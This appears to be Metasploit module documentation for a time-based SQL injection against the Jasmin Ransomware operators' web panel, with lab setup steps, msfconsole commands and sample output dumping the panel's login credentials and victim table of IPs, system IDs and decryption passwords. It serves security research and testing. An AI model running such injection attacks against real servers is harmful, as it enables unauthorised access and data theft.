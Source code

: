 ## Vulnerable Application

The Jasmin Ransomware web server contains an unauthenticated SQL injection vulnerability
within the login functionality. As of April 15, 2024 this was still unpatched, so all
versions are vulnerable. The last patch was in 2021, so it will likely not ever be patched.

Retrieving the victim's data may take a long amount of time. It is much quicker to
get the logins, then just login to the site.

### Install

create a LAMP server (using php 8.2 worked for me, 7.2 did not).
Run the following commands:

```
git clone https://github.com/codesiddhant/Jasmin-Ransomware.git
cd Jasmin-Ransomware
sudo cp -r Web\ Panel/* /var/www/html/
sudo chown www-data:www-data /var/www/html/*
sudo mysql -p
```

Execute the following SQL commands:

```
CREATE DATABASE jasmin_db;
CREATE USER 'jasminadmin'@'localhost' IDENTIFIED BY '123456';
GRANT ALL PRIVILEGES ON jasmin_db.* TO 'jasminadmin'@'localhost';
Exit
```

Now setup the database:
`sudo mysql -u jasminadmin -p123456 jasmin_db < Web\ Panel/database/jasmin_db.sql`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/jasmin_ransomware_sqli`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should contents from the SQL Database.

## Options

### VICTIMS

Pull data from the Victim's table. Defaults to `false`

### VICTIMLIMIT

Number of rows from the victim table to pull. Defaults to `nil` which pulls all rows.

## Scenarios

### Jasmin installed on Ubuntu 22.04

```
msf6 > use auxiliary/gather/jasmin_ransomware_sqli
msf6 auxiliary(gather/jasmin_ransomware_sqli) > set verbose true
verbose => true
msf6 auxiliary(gather/jasmin_ransomware_sqli) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/jasmin_ransomware_sqli) > set victims true
victims => true
msf6 auxiliary(gather/jasmin_ransomware_sqli) > run

[*] Dumping login table
[*] {SQLi} Executing (select group_concat(cast(concat_ws(';',ifnull(admin,''),ifnull(creds,'')) as binary)) from master)
[*] {SQLi} Time-based injection: expecting output of length 15
[+] Dumped table contents:
Logins
======

 admin     creds
 -----     -----
 siddhant  123456

[*] Dumping victim table
[*] {SQLi} Executing (select group_concat(cast(concat_ws(';',ifnull(machine_name,''),ifnull(computer_user,''),ifnull(ip,''),ifnull(systemid,''),ifnull(password,'')) as binary)) from victims)
[*] {SQLi} Time-based injection: expecting output of length 428
[+] Dumped table contents:
Victims
=======

 machine_name    computer_user  ip              systemid         password
 ------------    -------------  --              --------         --------
 Bollywood       Salman Khan    47.247.223.177  df545f454f5d4f5  M9M99EvNpZVOWpy9
                                                d4af5            Q8sZLHEP
 DESKTOP-37Q74Q  cyberstair     47.247.223.177  96457DF79A87C7C  xAS4NinH/HQKNJws
 H                                              0008A7BE7        NtTWN5yD
 FiFa            Leone Messi    47.247.223.177  cfhsfkdjkfvdd45  JDNAaz6e3oyM8cN+
                                                4s5g4            AGFdMl/5
 Indian Cricket  Virat Kohli    47.247.223.177  SDGFs4F4S4FD4F4  3tIHrYJqqTSBpw4l
                                                545fs            gMMck1GD
 White House     Donald Trump   47.247.223.177  fgighefesdgvrd5  RJtCd9QqiCfBaSU0
                                                g45rd4h          zQf84dvd

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

